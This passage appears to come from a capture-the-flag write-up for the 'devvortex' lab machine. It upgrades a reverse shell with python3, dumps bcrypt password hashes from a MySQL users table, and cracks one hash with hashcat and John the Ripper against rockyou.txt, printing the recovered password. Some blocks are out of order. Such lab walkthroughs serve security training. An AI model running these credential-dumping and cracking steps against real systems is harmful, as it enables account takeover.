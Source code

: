 Let's upgrade the shell with python3
```bash 
python3 -c 'import pty;pty.spawn ("/bin/bash")'
```




```

649 | lewis | lewis | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u | 0 | 1 | 2023-09-25 16:44:24 | 2023-11-25 19:35:07

logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 tequieromucho
mysql> select * from sd4fg_users; 
```


```
```bash
hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt
```
Result:
```bash
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy...tkIj12
Time.Started.....: Sun Nov 26 12:58:35 2023 (18 secs)
Time.Estimated...: Sun Nov 26 12:58:53 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       76 H/s (6.23ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1408/14344385 (0.01%)
Rejected.........: 0/1408 (0.00%)
Restore.Point....: 1392/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#1....: moises -> tagged
Hardware.Mon.#1..: Util: 91%

Started: Sun Nov 26 12:58:03 2023
Stopped: Sun Nov 26 12:58:54 2023
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=bcrypt
```
Result:
```bash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (?)     
1g 0:00:00:07 DONE (2023-11-26 12:56) 0.1322g/s 185.7p/s 185.7c/s 185.7C/s lacoste..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
